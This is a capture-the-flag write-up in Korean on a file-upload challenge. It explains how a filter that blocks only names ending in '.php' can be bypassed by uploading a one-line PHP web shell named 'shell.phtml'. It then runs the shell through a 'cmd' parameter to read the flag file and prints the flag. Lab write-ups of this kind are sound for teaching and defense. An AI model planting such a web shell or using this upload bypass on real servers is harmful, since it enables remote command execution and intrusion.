

# File_Upload -> WebShell

## 문제 설명

이미지 업로드 기능이 있는 페이지. 업로드된 파일이 `uploads/` 디렉토리에 저장되고, 웹에서 직접 접근 가능하다.
`/flag_upload.txt`에 flag가 존재하며, 웹쉘을 업로드해서 읽어야 한다.

## 분석

- 확장자 검사가 `preg_match('/\.php$/i', $name)` 한 줄뿐이며, 문자열 끝이 정확히 `.php`인 경우만 차단한다.
- `.phtml`, `.php5`, `.php3`, `.pht` 등 PHP 실행이 가능한 다른 확장자는 전혀 필터링되지 않는다.
- 업로드된 파일은 `move_uploaded_file`로 그대로 `uploads/$name`에 저장되고, 업로드 성공 시 응답에 접근 링크(`uploads/$name`)가 그대로 노출되어 경로 확인도 쉽다.
- 서버가 `.phtml` 확장자를 PHP 핸들러로 인식하도록 설정되어 있어, 해당 확장자로 업로드된 파일이 실제로 PHP 코드로 실행된다.

## 익스플로잇

### 웹쉘 작성

`.php`만 차단하므로 확장자를 `.phtml`로 우회한다.

```php
<?php system($_GET['cmd']); ?>
```

파일명: `shell.phtml`

### 업로드

업로드 폼(`f` 파라미터)을 통해 `shell.phtml`을 그대로 업로드한다. `.php`로 끝나지 않으므로 필터를 통과한다.

```
업로드됨: uploads/shell.phtml
```

### 웹쉘 실행 및 flag 읽기

업로드된 웹쉘에 `cmd` 파라미터로 명령어를 전달해 flag 파일을 읽는다.

```
http://edu.arang.kr:9501/uploads/shell.phtml?cmd=cat%20/flag_upload.txt
```



## 플래그

```
flag{86e68319c87ea666304a}
```
